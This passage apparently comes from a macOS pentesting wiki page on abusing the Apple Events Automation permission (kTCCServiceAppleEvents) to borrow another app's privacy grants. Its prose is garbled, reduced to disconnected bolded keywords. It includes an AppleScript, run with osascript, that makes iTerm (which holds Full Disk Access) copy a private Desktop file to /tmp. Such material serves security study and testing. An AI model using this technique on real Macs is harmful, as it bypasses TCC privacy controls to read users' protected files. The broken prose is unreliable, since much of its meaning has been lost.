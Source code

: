 **app** **kTCCServiceAppleEvents** **permission** **able** **control other Apps**. **means** **able** **abuse permissions granted other Apps**.

**info** **Apple Scripts** **check**:

{% content-ref url="macos-apple-scripts.md" %}
[macos-apple-scripts.md](macos-apple-scripts.md)
{% endcontent-ref %}

**example**, **App** **Automation permission** **iTerm**, **example** **Terminal** **access** **iTerm**:

<figure><img src="../../../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Over iTerm

**Terminal**, **FDA** **have**, **call** **iTerm**, **FDA**, **perform actions**:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
activate
tell current window
create tab with default profile
end tell
tell current session of current window
write text "cp ~/Desktop/private.txt /tmp"
end tell
end tell
```
{% endcode %}
```bash
osascript iterm.script
```
#### Finder jup
